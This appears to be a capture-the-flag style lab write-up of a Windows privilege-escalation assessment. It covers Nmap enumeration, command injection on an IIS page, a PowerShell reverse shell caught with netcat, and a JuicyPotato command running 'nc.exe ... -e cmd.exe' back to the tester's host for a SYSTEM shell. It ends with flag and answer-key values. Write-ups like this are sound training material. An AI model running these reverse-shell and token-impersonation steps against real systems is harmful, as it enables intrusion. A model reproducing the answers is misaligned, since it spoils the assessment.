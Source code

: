 # Skills Assessment 1

uring a penetration test against the INLANEFREIGHT organization, you encounter a non-domain joined Windows server host that suffers from an unpatched command injection vulnerability. After gaining a foothold, you come across credentials that may be useful for lateral movement later in the assessment and uncover another flaw that can be leveraged to escalate privileges on the target host.

For this assessment, assume that your client has a relatively mature patch/vulnerability management program but is understaffed and unaware of many of the best practices around configuration management, which could leave a host open to privilege escalation.

Enumerate the host (starting with an Nmap port scan to identify accessible ports/services), leverage the command injection flaw to gain reverse shell access, escalate privileges to `NT AUTHORITY\SYSTEM` level or similar access, and answer the questions below to complete this portion of the assessment.

## Questions

<details>

<summary>Nmap Enumeration</summary>

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-21 03:20 EDT
Nmap scan report for 10.129.225.46
Host is up (0.19s latency).
Not shown: 998 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: DEV Connection Tester
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-07-21T07:21:18+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WINLPE-SKILLS1-SRV
| Not valid before: 2023-07-20T07:18:28
|_Not valid after:  2024-01-19T07:18:28
| rdp-ntlm-info: 
|   Target_Name: WINLPE-SKILLS1-
|   NetBIOS_Domain_Name: WINLPE-SKILLS1-
|   NetBIOS_Computer_Name: WINLPE-SKILLS1-
|   DNS_Domain_Name: WINLPE-SKILLS1-SRV
|   DNS_Computer_Name: WINLPE-SKILLS1-SRV
|   Product_Version: 10.0.14393
|_  System_Time: 2023-07-21T07:21:13+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Command Injection

![](<../../.gitbook/assets/image (126).png>)

```
iis apppool\defaultapppool
```

</details>

<details>

<summary>Foothold (reverse shell) and local enumeration</summary>

### Getting Reverse Shell

I used powershell#3 base64 payload

![](<../../.gitbook/assets/image (124).png>)

```
rlwrap nc -lvnp 7890                          
listening on [any] 7890 ...
connect to [10.10.14.5] from (UNKNOWN) [10.129.225.46] 49670

PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv> 
```

### Local Enumeration

```
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\windows\system32\inetsrv> 
```

```
PS C:\windows\system32\inetsrv> wmic qfe
Caption                                     CSName           Description      FixComments  HotFixID   InstallDate  InstalledBy          InstalledOn  Name  ServicePackInEffect  Status  

http://support.microsoft.com/?kbid=3199986  WINLPE-SKILLS1-  Update                        KB3199986               NT AUTHORITY\SYSTEM  11/21/2016                                      
http://support.microsoft.com/?kbid=3200970  WINLPE-SKILLS1-  Security Update               KB3200970               NT AUTHORITY\SYSTEM  11/21/2016                                      

```

```
3199986&3200970
```

</details>

<details>

<summary>Privilege Escalation</summary>

```
PS C:\Users\Public> ./JuicyPotato.exe -l 1337 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}" -p c:\windows\system32\cmd.exe -a "/c c:\Users\Public\nc.exe 10.10.14.5 8443 -e cmd.exe" -t *
Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 1337
......
[+] authresult 0
{5B3E6773-3A99-4A3D-8096-7765DD11785C};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\Users\Public>
```

```
sudo rlwrap nc -lvnp 8443                                                                 
[sudo] password for kali: 
listening on [any] 8443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.129.225.46] 49693
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

</details>

<details>

<summary>Post Exploitation</summary>

```
C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7029-F417

 Directory of C:\Users\Administrator

06/04/2021  07:50 PM    <DIR>          .
06/04/2021  07:50 PM    <DIR>          ..
06/04/2021  07:50 PM    <DIR>          .ApacheDirectoryStudio
05/26/2021  06:21 PM    <DIR>          Contacts
08/08/2021  06:54 PM    <DIR>          Desktop
06/07/2021  12:23 PM    <DIR>          Documents
06/07/2021  12:34 PM    <DIR>          Downloads
05/26/2021  06:21 PM    <DIR>          Favorites
05/26/2021  06:21 PM    <DIR>          Links
06/07/2021  12:41 PM    <DIR>          Music
05/26/2021  06:21 PM    <DIR>          Pictures
05/26/2021  06:21 PM    <DIR>          Saved Games
05/26/2021  06:21 PM    <DIR>          Searches
05/26/2021  06:21 PM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)  18,932,109,312 bytes free

```

```
C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
Ev3ry_sysadm1ns_n1ghtMare!
```

![](<../../.gitbook/assets/image (117).png>)

```
C:\>where /R C:\ confidential.txt
where /R C:\ confidential.txt
C:\Documents and Settings\Administrator\Documents\My Music\confidential.txt
C:\Documents and Settings\Administrator\Music\confidential.txt
C:\Documents and Settings\Administrator\My Documents\My Music\confidential.txt
C:\Users\Administrator\Documents\My Music\confidential.txt
C:\Users\Administrator\Music\confidential.txt
C:\Users\Administrator\My Documents\My Music\confidential.txt

C:\>type C:\Users\Administrator\Music\confidential.txt
type C:\Users\Administrator\Music\confidential.txt
5e5a7dafa79d923de3340e146318c31a

```

</details>

Which two KBs are installed on the target system? (Answer format: 3210000&3210060)

* ```
  3199986&3200970
  ```

Find the password for the ldapadmin account somewhere on the system.

\-

Escalate privileges and submit the contents of the flag.txt file on the Administrator Desktop.

* ```
  Ev3ry_sysadm1ns_n1ghtMare!
  ```

After escalating privileges, locate a file named confidential.txt. Submit the contents of this file.

* ```
  5e5a7dafa79d923de3340e146318c31a
  ```
